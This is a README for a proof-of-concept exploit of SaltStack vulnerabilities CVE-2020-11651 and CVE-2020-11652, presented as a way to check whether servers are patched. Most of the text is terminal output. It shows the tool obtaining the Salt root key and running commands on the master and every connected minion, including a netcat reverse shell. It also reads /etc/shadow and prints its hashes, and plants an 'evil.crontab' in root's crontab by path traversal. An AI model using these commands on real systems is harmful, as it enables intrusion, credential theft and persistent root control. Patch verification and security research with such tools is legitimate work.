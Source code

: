 # PoC exploit for CVE-2020-11651 and CVE-2020-11652

This is a proof of concept exploit based on the initial [check script](https://github.com/rossengeorgiev/salt-security-backports).
Use it to verify you have successfully updated your Salt master servers to a [release containing the required fixes](https://help.saltstack.com/hc/en-us/articles/360043056331-New-SaltStack-Release-Critical-Vulnerability).

Thanks for F-Secure Labs for their [research and reporting](https://labs.f-secure.com/advisories/saltstack-authorization-bypass/).

Currently this script can be used for filesystem access and scheduling commands on the master and all connected minions. Use these powers wisely!

## Usage

Default operation (without arguments) is to obtain the root key for the given master:

```
root@kalimah:~/salt# python3 exploit.py --master 192.168.115.130
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Salt version: 3000.1
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.115.130:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: b5pKEa3Mbp/TD7TjdtUTLxnk0LIANRZXC+9XFNIChUr6ZwIrBZJtoZZ8plfiVx2ztcVxjK2E1OA=
root@kalimah:~/salt#
```

Executing arbitrary commands on the master:

```
root@kalimah:~/salt# python3 exploit.py --master 192.168.115.130 --exec "nc 127.0.0.1 4444 -e /bin/sh"
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Salt version: 3000.1
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.115.130:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: b5pKEa3Mbp/TD7TjdtUTLxnk0LIANRZXC+9XFNIChUr6ZwIrBZJtoZZ8plfiVx2ztcVxjK2E1OA=
[+] Attemping to execute nc 127.0.0.1 4444 -e /bin/sh on 192.168.115.130
[+] Successfully scheduled job: 20200504153851746472
root@kalimah:~/salt#
```

The same, but on all minions:

```
root@kalimah:~/salt# python3 exploit.py --master 192.168.115.130 --exec-all="apt-get upgrade -y"
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Salt version: 3000.1
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.115.130:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: b5pKEa3Mbp/TD7TjdtUTLxnk0LIANRZXC+9XFNIChUr6ZwIrBZJtoZZ8plfiVx2ztcVxjK2E1OA=
[!] Lester, is this what you want? Hit ^C to abort.
[+] Attemping to execute 'apt-get upgrade -y' on all minions connected to 192.168.115.130
[+] Successfully submitted job to all minions.
root@kalimah:~/salt#
```

Files can be read with:

```
root@kalimah:~/salt# python2 exploit.py --master 192.168.115.130 -r /etc/shadow
[+] Salt version: 2019.2.0
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (192.168.115.130:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: GkJiProN36+iZ53buhvhm3dWcC/7BZyEomu3lSFucQF9TkrCRfA32EIFAk/yyQMkCyqZyxjjp/E=
[+] Attemping to read /etc/shadow from 192.168.115.130
root:$6$7qfolaa/$3yhszWj/VUJjfPaqr1yO6NLgV/FhHnVT9Pr6spwJ/F0BJw5vFM.3KjtwcnnuGo5uSJJkLrd28jXrmVZUD9nEI/:17812:0:99999:7:::
daemon:*:17785:0:99999:7:::
bin:*:17785:0:99999:7:::
sys:*:17785:0:99999:7:::
sync:*:17785:0:99999:7:::
games:*:17785:0:99999:7:::
man:*:17785:0:99999:7:::
[...]
```

Files can be uploaded using `--upload-src` and `--upload-dest`. Note the destination must be a relative path:


```
root@kalimah:~/salt#  python2 exploit.py --upload-src evil.crontab --upload-dest ../../../../../../var/spool/cron/crontabs/root
[+] Salt version: 2019.2.0
[ ] This version of salt is vulnerable! Check results below
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651...
[*] root key obtained: GkJiProN36+iZ53buhvhm3dWcC/7BZyEomu3lSFucQF9TkrCRfA32EIFAk/yyQMkCyqZyxjjp/E=
[-] Destination path must be relative
[+] Attemping to upload evil.crontab to ../../../../../../var/spool/cron/crontabs/root on 127.0.0.1
[ ] Wrote data to file /srv/salt/../../../../../../var/spool/cron/crontabs/root
```

## Requirements

- Python 2 or 3
- Salt (`pip3 install salt`)
